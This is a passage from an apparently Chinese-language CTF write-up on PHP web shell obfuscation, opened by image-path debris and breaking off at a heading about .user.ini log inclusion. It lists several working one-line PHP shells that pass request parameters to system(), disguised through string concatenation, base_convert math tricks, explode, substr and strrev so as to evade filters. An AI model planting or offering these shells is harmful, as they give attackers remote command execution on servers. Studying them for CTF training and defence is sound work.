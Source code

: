 本来还想着包含一波日志。

#### 字符拼接

```php
<?php $a='syste'.'m';($a)('ls ../');
```

#### $_REQUEST

```php
<?php
$a=$_REQUEST['a'];
$b=$_REQUEST['b'];
$a($b);
?>
```

#### 数学函数

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos});
# get传参   abs=system&acos=ls
```

[这里](https://yanmie-art.github.io/2020/10/30/%E4%BB%8E0%E5%BC%80%E5%A7%8B%E5%AD%A6web%E4%B9%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C/)

#### 其他函数构造

```php
<?php
$a = "s#y#s#t#e#m";
$b = explode("#",$a);
$c = $b[0].$b[1].$b[2].$b[3].$b[4].$b[5];
$c($_REQUEST[1]);
?>
```

```php
<?php
$a=substr('1s',1).'ystem';
$a($_REQUEST[1]);
?>
```

```php
<?php
$a=strrev('metsys');
$a($_REQUEST[1]);
?>
```

## web169~.user.ini包含日志

测试发现
